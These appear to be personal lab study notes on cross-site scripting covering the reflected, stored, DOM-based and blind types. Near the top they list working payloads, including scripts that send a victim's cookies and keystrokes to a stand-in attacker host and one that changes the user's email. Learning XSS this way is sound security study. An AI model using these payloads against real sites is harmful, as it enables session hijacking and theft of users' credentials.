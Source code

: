 
**XSS exploits**

POC: `<script>alert('XSS');</script>`


Session stealing (cookies):
`<script>fetch('https://hacker.thm/steal?cookie=' +btoa(document.cookie));</script>`

**Key Logger**:
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btao(e.key) );}</script>` 
- This acts as a key logger, makes anything that you type on the webpage be forwarded to a website that is under our control.

**Function exploits**

`<script>user.changeEmail('attacker@hacker.thm');</script>` 

***Reflected XSS****

- Happens when user-supplied data in an HTTP request is included in the webpage source without being validated.

![[Pasted image 20230301213516.png]]


**Test paramters in the URL  Query String and the URL file paths for XSS vulnerabilities**

***Stored XSS***

- Occurs when an XSS payload is stored on the web application and then gets ran when other users visit the web page.

![[Pasted image 20230301214040.png]]

Test for Stored XSS in:

![[Pasted image 20230301214401.png]]

***DOM Based XSS***

- DOM= Document Object Model = programming interface for HTML and XML documents

- allows changing of document structure, style, and content.![[Pasted image 20230301214800.png]]

- In DOM-Based XSS, execution happens directly in the browser without any new pages being loaded or any data being submitted to backend code. 

Ex: chat between two people enables sending of links.
	When the person clicks a link, a command will be executed on the clickers side, and the result of the command will be sent to the attackers side. 

***Blind XSS*** 

- Similar to stored XSS, but we can't see the payload working or be able to test it against ourself first. 

- For this reason, we need to make sure our payload has a callback (HTTP reqeust to our server) so that we know if and when our malicious code is being executed.

Tools: xsshunter


***Reflective XSS Exaple***

- ![[Pasted image 20230301220656.png]]

Will show you immediately the result of javascript after all tags are escaped or input is satisfied


***Exploiting Stored XSS***

![[Pasted image 20230301224056.png]]

this will load on the page automatically and send cookie data to my listener.

![[Pasted image 20230301224608.png]]

